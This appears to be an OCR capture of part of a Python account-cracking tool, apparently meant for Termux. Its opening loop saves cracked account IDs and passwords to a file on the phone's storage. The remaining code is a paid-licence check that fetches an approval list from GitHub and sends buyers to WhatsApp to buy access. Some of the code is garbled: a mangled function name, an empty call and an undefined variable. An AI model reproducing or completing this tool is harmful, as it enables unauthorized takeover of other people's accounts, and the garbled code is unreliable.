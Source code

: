                sn4gdh9('/sdcard/SABIR-CP.txt', 'a').write( uid+' | '+ps+' \n')
                cps.append(uid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\r%s{x}[{xr}SABIR{x}][%s|%s][OK:{xr}%s{x}]'%(H,loop,tl,len(oks))),
        sys.stdout.flush()
    except:
        pass


def reg():
    os.system('clear')
    print(logo)
    print ('')
    print ('\x1b[1;31;1mWATE FOR LOGING APROVAL')
    print ('')
    time.sleep(1)
    try:
        to = open('/sdcard/.ma.txt', 'r').read()
    except (KeyError, IOError):
        reg2()

    r = requests.get('https://raw.githubusercontent.com/Shuvo-BBHH/snigdho-mex/main/aproval.text').text
    if to in r:
        os.system('clear')
        print('WELL COME TO PAID MANU')
        time.sleep(5)
        ()
    else:
        os.system('clear')     
        print ('\tApproved Failed')
        print (' \x1b[1;92mYour Id Is Not Approved ')
        print (' \x1b[1;92mCopy the id and send to Admin')
        print (' \x1b[1;92mYour id : ' + to)
        input('\x1b[1;93m Press enter to send id')
        os.system('am start https://chat.whatsapp.com/GjQUpvAucZN8c81KNlgqmm?text=Assalamowalikom%20Sir,%20I%20Want%20To%20Buy%20Your%20snigdho%20Paid%20Tools.%20My%20Key:%20'+id+snigdho)
        reg()


def reg2():
    os.system('clear')
    print(logo)
    snigdho='=snigdho=MEX='
    print ('\tApproval not detected')
    print (' \x1b[1;92mCopy and press enter ,')
    id = uuid.uuid4().hex[:10]
    print (' Your id: ' + id+snigdho)
    print ('')
    input(' Press enter to go to whatsapp ')
    os.system('am start https://wa.me/+8801616406924?text=Assalamowalikom%20Sir,%20I%20Want%20To%20Buy%20Your%20snigdho=MEX%20Paid%20Tools.%20My%20Key:%20'+id+snigdho)
    sav = open('/sdcard/.ma.txt', 'w')
    sav.write(id+snigdho)
    sav.close()
    input('\x1b[1;92m Press enter to check Approval ')
    reg()

if __name__=='__main__':
    snigdho()


